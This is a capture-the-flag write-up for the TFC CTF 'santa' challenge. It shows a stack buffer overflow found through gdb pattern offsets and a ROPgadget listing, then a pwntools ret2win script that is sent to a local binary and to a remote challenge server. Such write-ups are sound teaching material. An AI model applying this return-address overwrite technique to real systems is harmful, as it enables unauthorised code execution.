

# SANTA

Challenge author: tomadimitrie

Tell your wish to Santa... it might come true

## Analysis

In this challenge we were given an ELF-64bit named `zoom2win` with no canary, NX enabled, and no PIE.

```
$ file santa; checksec santa  
santa: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2879273bfbd6a37bf2fb59b81093e32888d50e5c, not stripped
[*] '/home/kali/Documents/TFC CTF/santa'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Let's try to run it

```
$ ./santa 
What are you wishing for?

chicken nugget

```

It seems that the program doesn't do anything. Let's open the program using ida to see what the source code looks like.

#### main function
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // [rsp+0h] [rbp-30h]
  __int64 v5; // [rsp+8h] [rbp-28h]
  __int64 v6; // [rsp+10h] [rbp-20h]
  __int64 v7; // [rsp+18h] [rbp-18h]
  __int64 v8; // [rsp+20h] [rbp-10h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts("What are you wishing for?\n");
  v4 = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  __isoc99_scanf("%s", &v4);
  return 0;
}
```

From the source code, there is another function that caught my eyes. It's a `flag` function. Let's take a look.

#### flag
```c
int flag()
{
  return system("cat flag");
}
```

From the main function, it seems that we need to overflow the input and jump into the `flag` function.

First, we could use gdb to create a pattern.
```
$ gdb -q ./santa
Reading symbols from ./santa...
(No debugging symbols found in ./santa)
gdb-peda$ pattern create 64
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/TFC CTF/santa 
What are you wishing for?

AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH

Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the return in the main function by examining the `$rsp`.
```
gdb-peda$ x/gx $rsp
0x7fffffffdf68: 0x4841413241416341
gdb-peda$ pattern offset 0x4841413241416341
5206514328315978561 found at offset: 56
```

Nice, we got the offset/padding. Now we need to know the address of `flag` function.
```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  system@plt
0x0000000000401050  setvbuf@plt
0x0000000000401060  __isoc99_scanf@plt
0x0000000000401070  _start
0x00000000004010a0  _dl_relocate_static_pie
0x00000000004010b0  deregister_tm_clones
0x00000000004010e0  register_tm_clones
0x0000000000401120  __do_global_dtors_aux
0x0000000000401150  frame_dummy
0x0000000000401152  flag
0x0000000000401165  main
0x00000000004011e0  __libc_csu_init
0x0000000000401240  __libc_csu_fini
0x0000000000401244  _fini
```

Lastly, we need to get the return address. So when we overwrite the stack, we could change the instruction to return to flag function. To get the return address, we could use ROPgadget.
```
$ ROPgadget --binary santa | grep "ret"
0x0000000000401099 : add ah, dh ; nop dword ptr [rax + rax] ; ret
0x00000000004010cb : add bh, bh ; loopne 0x401135 ; nop ; ret
0x00000000004011d8 : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x00000000004011d9 : add byte ptr [rax], al ; add cl, cl ; ret
0x0000000000401098 : add byte ptr [rax], al ; hlt ; nop dword ptr [rax + rax] ; ret
0x00000000004011da : add byte ptr [rax], al ; leave ; ret
0x000000000040109e : add byte ptr [rax], al ; ret
0x000000000040109d : add byte ptr [rax], r8b ; ret
0x0000000000401137 : add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004011db : add cl, cl ; ret
0x00000000004010ca : add dil, dil ; loopne 0x401135 ; nop ; ret
0x0000000000401138 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
0x0000000000401013 : add esp, 8 ; ret
0x0000000000401012 : add rsp, 8 ; ret
0x0000000000401224 : fmul qword ptr [rax - 0x7d] ; ret
0x000000000040109a : hlt ; nop dword ptr [rax + rax] ; ret
0x00000000004011dc : leave ; ret
0x00000000004010cd : loopne 0x401135 ; nop ; ret
0x0000000000401132 : mov byte ptr [rip + 0x2f17], 1 ; pop rbp ; ret
0x00000000004011d7 : mov eax, 0 ; leave ; ret
0x0000000000401162 : nop ; pop rbp ; ret
0x00000000004010cf : nop ; ret
0x000000000040109b : nop dword ptr [rax + rax] ; ret
0x000000000040123d : nop dword ptr [rax] ; ret
0x0000000000401234 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401236 : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401238 : pop r14 ; pop r15 ; ret
0x000000000040123a : pop r15 ; ret
0x0000000000401233 : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401237 : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000401139 : pop rbp ; ret
0x000000000040123b : pop rdi ; ret
0x0000000000401239 : pop rsi ; pop r15 ; ret
0x0000000000401235 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401016 : ret
0x0000000000401062 : retf 0x2f
0x000000000040100d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x0000000000401245 : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000401244 : sub rsp, 8 ; add rsp, 8 ; ret

```

From the ROPgadget, we only need the one that holds the information of "ret" and the ret address is `0x0000000000401016`

## Exploit

Let's make a solver using python
```python
from pwn import *

offset = 56
flag = 0x0000000000401152
ret = 0x0000000000401016

payload = b""
payload += b"A"*offset
payload += p64(ret)
payload += p64(flag)

s = process("./santa")

print(s.recvline().decode())
s.sendline(payload)
print(s.recvall().decode())

s.close()
```

Now we need to do is just run the program to make sure it works!


Since it works, lets test on remote server by adding host, port and replacing `s = process("./santa")` to `s = remote(host, port)`
```python
from pwn import *

offset = 56
flag = 0x0000000000401152
ret = 0x0000000000401016

payload = b""
payload += b"A"*offset
payload += p64(ret)
payload += p64(flag)

host = "34.65.54.58"
port = 1340

s = remote(host, port)

print(s.recvline().decode())
s.sendline(payload)
print(s.recvall().decode())

s.close()
```

Now all we need to do is just run the program!


Flag: `TFCCTF{A11_I_w4nt_4_Chr15tm4s_i5_y0uuuu}`